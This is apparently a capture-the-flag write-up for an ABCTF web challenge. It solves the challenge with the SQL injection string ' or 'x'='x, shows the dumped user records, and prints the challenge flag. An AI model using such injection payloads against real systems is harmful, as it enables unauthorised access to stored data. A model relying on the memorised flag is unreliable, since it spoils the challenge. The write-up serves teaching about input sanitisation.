 ```yaml
---
layout: writeup
title: 'Get ‘Em all'
level:
difficulty:
points: 80
categories: [web exploitation]
tags: []
flag: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
---
```

**Challenge**   
I think one of the users data fields holds a flag. If only you could
find the username. Link

**Solution**   
SQL injection challenge, we enter the following in the input field:

    ' or 'x'='x

and get the following output, which includes the flag

    Name: Luke
    Data: I made this problem.
    Name: Alec
    Data: Steam boys.
    Name: Jalen
    Data: Pump that iron fool.
    Name: Eric
    Data: I make cars.
    Name: Sam
    Data: Thinks he knows SQL.
    Name: fl4g__giv3r
    Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
    Name: snoutpop
    Data: jowls
    Name: Chunbucket
    Data: @datboiiii

